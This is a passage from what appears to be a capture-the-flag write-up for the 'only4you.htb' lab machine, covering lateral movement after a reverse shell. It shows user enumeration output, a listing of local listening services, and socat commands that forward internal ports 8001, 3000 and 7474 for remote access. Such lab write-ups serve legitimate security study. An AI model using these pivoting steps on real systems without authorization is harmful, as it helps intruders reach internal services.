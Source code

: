
![](screenshots/http-only4you.htb-rev-shell.png)



## Lateral movement

Few users on the box
```bash
╔══════════╣ Users with console
dev:x:1001:1001::/home/dev:/bin/bash
john:x:1000:1000:john:/home/john:/bin/bash
neo4j:x:997:997::/var/lib/neo4j:/bin/bash
root:x:0:0:root:/root:/bin/bash
```

There are few local services running on port 8001, 3000
```bash
(remote) www-data@only4you:/tmp$ ss -lntp
LISTEN         0              4096                              127.0.0.1:3000                         0.0.0.0:*
LISTEN         0              2048                              127.0.0.1:8001                         0.0.0.0:*
LISTEN         0              50                       [::ffff:127.0.0.1]:7474                               *:*
```

Forward port 8001,3000,7474 to access them from remote machine.
```bash
./socat TCP-LISTEN:18001,fork TCP:127.0.0.1:8001 &
./socat TCP-LISTEN:13000,fork TCP:127.0.0.1:3000 &
./socat TCP-LISTEN:17474,fork TCP:127.0.0.1:7474 &
```

<div style="display:flex;">